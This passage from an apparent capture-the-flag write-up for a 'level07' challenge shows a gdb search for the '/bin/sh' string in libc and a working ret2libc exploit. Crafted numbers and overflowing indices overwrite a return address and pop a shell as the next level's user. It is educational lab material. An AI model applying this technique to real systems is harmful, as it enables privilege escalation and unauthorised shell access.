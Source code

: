     (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
    0xf7f897ec
    1 pattern found.

We found a `"/bin/sh"` string at `0xf7f897ec`. In decimal it's equal to `4160264172`

We have all the informations we needed, let's go!

    $ ./level07 
    ----------------------------------------------------
    Welcome to wil's crappy number storage service!   
    ----------------------------------------------------
    Commands:                                          
        store - store a number into the data storage    
        read  - read a number from the data storage     
        quit  - exit the program                        
    ----------------------------------------------------
    wil has reserved some storage :>                 
    ----------------------------------------------------

    Input command: store
    Number: 4159090384
    Index: 1073741938
    Completed store command successfully
    Input command: store
    Number: 4160264172
    Index: 116
    Completed store command successfully
    Input command: quit
    $ whoami
    level08
    $ 

Good!
